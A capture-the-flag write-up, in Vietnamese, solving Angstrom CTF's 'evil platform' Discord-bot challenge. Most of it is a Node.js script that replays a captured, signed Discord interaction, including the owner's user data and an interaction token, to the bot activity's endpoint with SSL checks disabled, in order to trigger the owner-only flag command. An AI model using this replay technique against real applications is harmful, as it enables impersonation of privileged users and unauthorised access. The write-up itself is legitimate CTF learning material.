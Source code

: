 ```yaml
---
layout: post
title:  "Writeup Angstrom CTF"
tags: [writeup]
authors: [1]
---
```


## evil platform

![](/assets/angstrom1.png)

> I made a [Discord bot](https://discord.com/oauth2/authorize?client_id=1243802014991913034&permissions=0&scope=bot)! It has everything you want: just flags! Well, I also played around with some new features so there's this cool activity display it can do: unfortunately you would need to own the bot to check it out!

> [source](https://files.actf.co/ce5c8b4ff215a2fc38e9fe375b4146b6ed156b41d25c293992fee898290aa635/index.ts) and [backup bot](https://discord.com/oauth2/authorize?client_id=1244311425246302339&permissions=0&scope=bot)

> Author: paper

> Hint: You should be able to guess the URL which hosts the activity by looking at inspect element for default activities.

Đề bài cho 1 con bot Discord và bảo xem phần activity, tuy nhiên phần activity tác giả thiết kế bị lỗi nên player không xem được, vì vậy ta vào Discord và kiểm tra một activity khác.

```javascript
let request = require('request-promise');

let data = {
  msg: 'validation success',
  signature: '4707122c4f76ea409f2085ccf191d57d7eb29c8ed31ca1910246be3300e279fffa306f50fb747866123dbc923085d18d19c13b83086e06f48243f76f5f8aec0f',
  timestamp: '1716659867',
  body: '{"app_permissions":"311296","application_id":"1243802014991913034","authorizing_integration_owners":{"0":"686027739966341154"},"channel":{"flags":0,"guild_id":"686027739966341154","icon_emoji":{"id":null,"name":"🌐"},"id":"686245017265766431","last_message_id":"1243986377255682058","last_pin_timestamp":"2021-05-27T21:28:37+00:00","name":"general","nsfw":false,"parent_id":"686029342681071810","permissions":"1125899906842623","position":8,"rate_limit_per_user":0,"theme_color":null,"topic":null,"type":0},"channel_id":"686245017265766431","context":0,"data":{"id":"1243807908458664067","name":"flag","type":1},"entitlement_sku_ids":[],"entitlements":[],"guild":{"features":["COMMUNITY_EXP_MEDIUM","COMMUNITY","AUTO_MODERATION","NEWS","CHANNEL_ICON_EMOJIS_GENERATED","THREADS_ENABLED"],"id":"686027739966341154","locale":"en-US"},"guild_id":"686027739966341154","guild_locale":"en-US","id":"1243986387712344244","locale":"en-US","member":{"avatar":null,"communication_disabled_until":null,"deaf":false,"flags":0,"joined_at":"2021-04-02T01:14:22.678000+00:00","mute":false,"nick":"paper","pending":false,"permissions":"1125899906842623","premium_since":null,"roles":["686028267475697666","686028192737525861","686237076806828103","969698895355580458","686028235183620152"],"unusual_dm_activity_until":null,"user":{"avatar":"d95c3567651a0ce43a927e739a51bf13","avatar_decoration_data":null,"clan":null,"discriminator":"0","global_name":"A5rocks","id":"302968847353249813","public_flags":0,"username":"a5rocks"}},"token":"aW50ZXJhY3Rpb246MTI0Mzk4NjM4NzcxMjM0NDI0NDpJZTBhb1NFVk1FTk5PcUVsdzN5SlRXamwxV3RobzA4SWR2clJpYTV6bGF6T04xQkp1VTlWVjE2eFlmaDIwczRUZGtBeUF3Q0VqYjE5OFVhRzEwUWl1VDBSSVNBNHRHbVVGVWZUVmVOTWVDVFhQc014dDdWOHJ0WVIzR1RMRE5mNQ","type":2,"version":1}'
}

async function run() {
    let resp = await request.post('https://1243802014991913034.discordsays.com/interact', {
        headers: {
            'X-Signature-Ed25519': data.signature,
            'X-Signature-Timestamp': data.timestamp,
            "content-type": "application/json",
        },
        body: data.body,
        // proxy: 'http://localhost:8080',
        strictSSL: false
    });
    console.log(resp);
};

run();
```